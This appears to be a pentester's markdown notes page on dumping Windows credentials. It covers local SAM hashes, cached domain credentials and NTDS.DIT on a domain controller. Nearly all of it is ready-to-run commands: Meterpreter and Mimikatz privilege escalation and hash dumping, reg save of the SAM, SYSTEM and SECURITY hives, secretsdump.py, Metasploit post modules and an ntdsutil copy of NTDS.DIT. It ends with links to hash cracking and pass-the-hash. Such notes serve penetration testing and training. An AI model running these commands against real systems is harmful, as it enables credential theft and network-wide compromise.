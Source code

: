 ```yaml
---
title: Dumping Windows Credentials
draft: false
tags:
  - pentesting
  - windows
  - credentials
---
```

# Dumping Windows Credentials

https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets
https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials

##  Terminology

- SAM: Database file that contains local username and passwords (like /etc/shadow)
- NTDS.DIT: Database file that contains all Active Directory objects, stored on DC
- DC: Domain Controller

##  Prerequisites

NT AUTHORITY\SYSTEM (aka Administrator) is needed to dump credentials.

```
meterpreter > getsystem

mimikatz > privilege::debug
mimikatz > token::elevate
```

## Non domain-joined machine

With domain-joined machines, passwords will be saved locally in `C:\Windows\System32\config\SAM`

Returns: `username:rid:lm:nt::::`

```
meterpreter > hashdump

reg save HKLM\SAM SAM
reg save HKLM\SYSTEM SYSTEM
secretsdump.py -sam SAM -system SYSTEM LOCAL
```

## Domain joined machine

With a domain joined machine (that is not a Domain Controller) we can extract local passwords from SAM and also cached passwords (Mscash2). 

Returns: `username:hash::`

```
meterpreter > bg
msf6 > use post/windows/gather/cachedump

mimikatz > lsadump::cache

reg save HKLM\SAM SAM
reg save HKLM\SECURITY SECURITY
reg save HKLM\SYSTEM SYSTEM
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

## Domain Controller

Having access to a Domain Controller (DC) gives us access to NTDS.DIT. We cannot copy this file normally, as it's always in use, but we can use ntdsutil or vssadmin. 

Returns: `domain\username:rid:lm:nt::::`

```
meterpreter > bg
msf6 > use post/windows/gather/credentials/domain_hashdump

powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
secretsdump.py -ntds NTDS.DIT -security SECURITY -system SYSTEM LOCAL
```

## Next Steps
- [[crackingdumpedwindowshashes|Cracking Dumped Windows Hashes]]
- [[passthehashattack|Pass-the-Hash Attack]]
